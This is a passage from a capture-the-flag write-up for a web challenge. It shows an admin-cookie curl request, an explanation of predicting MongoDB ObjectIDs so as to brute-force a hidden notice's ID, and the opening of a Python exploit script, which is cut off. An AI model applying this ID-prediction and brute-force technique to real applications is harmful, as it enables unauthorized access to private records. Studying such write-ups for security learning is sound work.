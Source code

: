 We relogin and now are Admin!
```sh
➜  sample-colorful_board curl 'https://eb7655042aed5ebaba63a259.deadsec.quest/admin/notice' -H "Cookie: $cookie"
<!DOCTYPE html>
<html lang="ko">
# ..
# ..
```

- Getting the second part of the flag

Now we can see the notices but not the one that has the flag, we will skip the first part for now and focus on the second part you will see why later (it's easier 😅).

We have two notices IDs and the flag is inbetween them
```html
<h2><a href="/admin/notice/66a67f8a5abd7894b69f2d68">asdf</a></h2>
<h2><a href="/admin/notice/66a67f905abd7894b69f2d6a">qwer</a></h2>
```
If you notice the IDs are similar, only minor and predictable because of how mongodb ObjectID works. During the CTF my script was trying all possible iterations on the differencet characters because somehow the difference was only 2 characters which is a small charset to bruteforce. Now it's 3 so it's not efficient I had to find another way to predict that and it's when I found this [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/27017-27018-mongodb#mongo-objectid-predict) page.
This gives a better idea on how we should predict the id, `66a67f8a5abd7894b69f2d68` is the first and `66a67f905abd7894b69f2d6a` is the third, the last char differ by 2 i.e in the middle our flag notice id will end with 9, left two more chars which just need to be bruteforced.

If we look at the IDs in our local image it will look like this which will comfirm that which is also detailed in the article linked above.
```json
cb> db.notices.find()
[
  {
    _id: ObjectId('66a66e63387296b1ad9f2d68'),
    title: 'asdf',
    content: 'asdf'
  },
  {
    _id: ObjectId('66a66e68387296b1ad9f2d69'),
    title: 'flag',
    content: 'FAKE_FLAG}'
  },
  {
    _id: ObjectId('66a66e6c387296b1ad9f2d6a'),
    title: 'qwer',
    content: 'qwer'
  }
]
```
And here is the final script to automate everything we done so far and get the second part of the flag.
```py
#!/usr/bin/python3
import requests
import re
import threading

# url = "http://127.0.0.1:1337/"
url = "https://eb7655042aed5ebaba63a259.deadsec.quest/"
creds = {"username": "oz", "password": "oz", "personalColor": "blue"}
access_token = ""
flag_id = ""

s = requests.Session()
```